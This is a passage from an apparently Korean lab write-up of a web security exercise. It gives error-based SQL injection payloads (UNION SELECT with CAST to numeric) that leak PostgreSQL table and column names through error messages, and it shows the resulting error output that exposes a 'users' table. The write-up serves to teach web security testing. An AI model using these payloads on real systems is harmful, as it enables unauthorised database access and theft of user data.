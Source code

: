 ```sql
' UNION SELECT NULL,NULL,NULL,CAST(table_name as numeric),NULL,NULL,NULL,NULL FROM information_schema.tables --
```

보내본다. 여전히 에러가 발생하지만 테이블명도 출력된 것을 알 수 있다. `users`테이블의 존재를 확인했다. 이 테이블이 유저정보를 저장하는 테이블로 보인다. 

```
java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;users&quot;
```

![](/images/burp-academy-serial-8-13.png)


## 10. users 테이블에 존재하는 칼럼명 알아내기 

쿼리를 다음과 같이 수정한다. 

```sql
' UNION SELECT NULL,NULL,NULL,CAST(column_name as numeric),NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users' --
```
